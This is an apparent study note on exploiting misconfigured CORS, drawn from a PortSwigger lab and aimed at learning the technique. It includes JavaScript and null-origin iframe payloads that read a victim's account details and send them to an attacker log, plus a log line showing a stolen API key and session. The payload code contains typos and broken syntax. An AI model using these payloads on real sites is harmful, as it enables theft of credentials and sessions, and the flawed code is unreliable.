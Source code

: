 # Exploiting CORS

Assume a website has insecure CORS configuration that trusts all origins, attacker can craft a malicious HTML to lure the victim to click and extract sensitive information and sent to attacker.

Here is one example from portswigger:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A login user visit `/accountDetails` is allowed to get a respond of the user details including apikey and sessions.

If we add any origin for testing, the response will show the origin is allowed.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

With this, it has no restriction of javascript origin, we can craft a malicious html page embedded with javascript to steal the respond in `accountDetails`

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.onload = function(){
        location('/log?key=' + xhr.respondTexte;)
    }
    xhr.open('GET','<vulnerablesites>/accountDetails",true);
    xhr.withCredentials = true;
    xhr.send();
</script>
```

After the victim click the link and visit the sites

{% code overflow="wrap" %}
```
10.0.3.227 X-X-X X:X:X:X +0000 "GET /log? key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22: %20%2268GUX0NAnVliC8aazO5LXijOQTPQQBWG%22,%20%20%22sessions%22:%20[%20%20%20%20%22TtWQVO4D3gfH7Ye50DdMGNpo7EfBkysI%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0.0 Safari/537.36
```
{% endcode %}

The logs will store the api keys

### Error parsing Origin headers

Some applications have a whitelisted origins, When a CORS request being made, the server origin is compared to the whitelist, if the origin appears on the whitelists then it reflected in the `Access-Control-Allow-origin` header so that the access is granted.

E.g.

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Some mistakes when implementing CORS origin whitelists is some organization decide to allow access from all their subdomains e.g. **\*normal.sites .**&#x20;

An attacker might be able to gain access by registering the domain:

hackerman-normal.sites

### Whitelisted null origin value

The specification for the Origin header supports the value `Null` . Browser might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects
* Requests from seralized data
* Request using the `file:` protocol
* Sandboxed cross-origin requests

One of the technique is using iframe sandbox, it isolated the `iframe` freom the rest of the web context, stripping away any traditional origin and set the origin to `null`&#x20;

We modified the previous payload to include a iframe:

```javascript
<iframe sandbox="allow-scrtips allow-top-nagivation allow-forms" scriptdoc="
<script>
    var xhr = new XMLHttpRequest();
    xhr.onload = function(){
        location('/log?key=' + xhr.respondTexte;)
    }
    xhr.open('GET','<vulnerablesites>/accountDetails",true);
    xhr.withCredentials = true;
    xhr.send();
</script>">
</iframe>
```

With this new payload, it can effective send a null origin iframe that trigger the javascript.

### Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship.

If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

###
